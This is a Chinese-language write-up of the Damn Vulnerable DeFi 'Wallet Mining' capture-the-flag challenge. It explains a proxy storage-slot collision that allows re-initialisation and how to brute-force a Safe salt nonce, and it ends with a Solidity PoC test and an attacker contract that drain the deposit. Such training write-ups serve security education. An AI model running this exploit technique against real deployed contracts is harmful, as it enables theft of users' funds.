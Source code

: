 ## 题目 [Wallet Mining](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/wallet-mining)

有一个合约会激励用户部署 Safe 钱包，并奖励他们 1 个 DVT 代币。该合约与一个可升级的授权机制集成在一起，只允许特定的部署者（即 “wards”）因特定的部署而获得报酬。  

该部署者合约只能与部署期间设定的 Safe 工厂和副本配合使用。看起来 [Safe singleton factory](https://github.com/safe-global/safe-singleton-factory) 已经被部署好了。  

团队将 2000 万个 DVT 代币转移给了地址 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b 的用户，这个地址本应是她的普通 1-of-1 Safe 钱包所在的地方。但他们丢失了用于部署的 nonce 值。  

更糟的是，有传言说系统存在一个漏洞。团队因此非常紧张，没有人知道该怎么做，包括那个用户。她已经授予你访问她私钥的权限。  

你必须在为时已晚之前拯救所有资金！  

需要从钱包部署者合约中回收所有代币并将其发送到对应的 ward。同时，保存并返还所有用户的资金。  

所有这些操作必须在一个交易中完成。  

**要求：**  
1. USER_DEPOSIT_ADDRESS(0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b) 该地址必须有代码。
2. USER_DEPOSIT_ADDRESS 该地址余额清空。
3. 用来奖励 1 个 DVT 的合约余额清空。
4. user 账户，即给你私钥的那个账户，交易 nonce 为 0。
5. 你的交易 nonce 只为 1。
6. 你帮 user 账户找回了所有的代币，即 user 的余额为 2000 万 DVT。
7. wards 账户余额为 1 个 DVT。

总的来说，就是玩家（攻击者）需要从 USER_DEPOSIT_ADDRESS 地址中提取存款，并将这些代币转移到用户（user）账户，同时将支付一定数量的代币给 ward 地址。  

## 题解
1. 通过不断尝试 nonce 找到能部署出 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b 的 safe 钱包地址的 nonce 值。
2. `TransparentProxy` 代理合约写的不规范，把升级者地址放在了存储槽 0 中，导致和逻辑合约 `AuthorizerUpgradeable` 中的 `needsInit` 产生冲突，而当 `needsInit` 不为 0 的时候，可以再次调用初始化 `init()` 函数，从而增加创建钱包获取的 1 DVT 的奖励的地址。并且在部署完逻辑合约和代理合约后，槽 0 存的应该是 `upgrader`。
3. 用获取的 nonce 值通过 `WalletDeployer` 合约部署 safe 钱包，地址为 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b。
4. 把创建钱包获取的 1 DVT 转给给 ward 地址。
5. 由于我们有 user 的私钥，所以在创建 safe 钱包的时候，身份填的是 user，之后能签名把钱包里的钱提取出来。
6. 要求 player 只执行一笔交易，所以把 salt 值和签名准备好后，我们把逻辑都写在合约的构造函数中。

POC:
``` solidity
    function test_walletMining() public checkSolvedByPlayer {
        address ZEROAddr = address(0);
        address[] memory owners = new address[](1);
        owners[0] = user;

        bytes memory initializer = abi.encodeWithSelector(Safe.setup.selector, owners, 1, ZEROAddr, "", ZEROAddr, ZEROAddr, 0, ZEROAddr);

        bytes memory deploymentData = abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy))));

        uint256 saltNonce;
        for (uint256 i = 0; i < 100; ++i) {
            bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), i));
            address walletAddress = Create2.computeAddress(salt, keccak256(deploymentData), address(proxyFactory));
            if (walletAddress == USER_DEPOSIT_ADDRESS) {
                console.log("nonce: ", i);
                saltNonce = i;
                break;
            }
        }

        // generate the tx and sign
        bytes memory execData;
        { 
            address to = address(token);
            uint256 value = 0;
            bytes memory data = abi.encodeWithSelector(token.transfer.selector, user, DEPOSIT_TOKEN_AMOUNT);
            Enum.Operation operation = Enum.Operation.Call;
            uint256 safeTxGas = 100000;
            uint256 baseGas = 100000;
            uint256 gasPrice = 0;
            address gasToken = address(0);
            address refundReceiver = address(0);
            uint256 nonce = 0;
            bytes memory signatures;

            // calculate tx hash by ourself
            // cannot use safe.getTransactionHash, as it is not deployed yet
            // cannot use singletonCopy.getTransactionHash, as domainSeparator contains the contract address
            { // avoid stack too deep   
                bytes32 safeTxHash = keccak256(
                    abi.encode(
                        0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8, // SAFE_TX_TYPEHASH,
                        to,
                        value,
                        keccak256(data),
                        operation,
                        safeTxGas,
                        baseGas,
                        gasPrice,
                        gasToken,
                        refundReceiver,
                        nonce
                    )
                );
                bytes32 domainSeparator = keccak256(abi.encode(
                    0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218, // DOMAIN_SEPARATOR_TYPEHASH,
                    singletonCopy.getChainId(),
                    USER_DEPOSIT_ADDRESS
                ));
                bytes32 txHash = keccak256(abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash));
                (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
                signatures = abi.encodePacked(r, s, v);
            }
            execData = abi.encodeWithSelector(singletonCopy.execTransaction.selector, to, value, data, operation, safeTxGas, baseGas, gasPrice, gasToken, refundReceiver, signatures);
        }
        new WalletMiningAttacker(token, authorizer, walletDeployer, USER_DEPOSIT_ADDRESS, ward, initializer, saltNonce, execData);
    }

```

```solidity
contract WalletMiningAttacker {
    constructor (DamnValuableToken token, AuthorizerUpgradeable authorizer, WalletDeployer walletDeployer, address safe, address ward, bytes memory initializer, uint256 saltNonce, bytes memory txData) {
        address[] memory wards = new address[](1);
        address[] memory aims = new address[](1);
        wards[0] = address(this);
        aims[0] = safe;
        authorizer.init(wards, aims);

        bool success = walletDeployer.drop(address(safe), initializer, saltNonce);
        require(success, "deploy failed");
        token.transfer(ward, token.balanceOf(address(this)));
        (success,) = safe.call(txData);
        require(success, "tx failed");
    }
}
```